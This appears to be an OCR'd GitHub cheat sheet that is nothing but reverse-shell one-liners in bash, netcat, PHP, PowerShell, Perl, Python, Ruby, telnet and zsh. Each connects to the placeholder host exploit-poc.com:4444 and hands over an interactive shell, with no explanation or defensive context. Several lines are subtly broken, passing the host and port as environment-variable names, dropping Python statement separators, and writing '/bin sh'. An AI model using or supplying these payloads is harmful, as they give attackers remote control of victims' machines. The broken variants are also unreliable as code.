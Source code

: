 ## ReverseShell
#### bash_rshell
```
bash -c 'exec bash -i &>/dev/tcp/exploit-poc.com/4444 <&1'
```

#### netcat_rshell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc exploit-poc.com 4444 >/tmp/f
```

#### php_rshell
```
php -r '$sock=fsockopen(getenv("exploit-poc.com"),getenv("4444"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### PS_rshell
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('exploit-poc.com',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### perl_rshell
```
perl -e 'use Socket;$i="$ENV{exploit-poc.com}";$p=$ENV{4444};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### python_rshell
```
python -c 'import sys,socket,os,pty;s=socket.socket()s.connect((os.getenv("exploit-poc.com"),int(os.getenv("4444"))))[os.dup2(s.fileno(),fd) for fd in (0,1,2)]pty.spawn("/bin/sh")'
```

#### ruby_rshell
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["exploit-poc.com"],ENV["4444"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

#### telnet_rshell
```
TF=$(mktemp -u); mkfifo $TF && telnet exploit-poc.com 4444 0<$TF | /bin sh 1>$TF
```

#### zsh_rshell
```
zsh -c 'zmodload zsh/net/tcp && ztcp exploit-poc.com 4444 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'
```
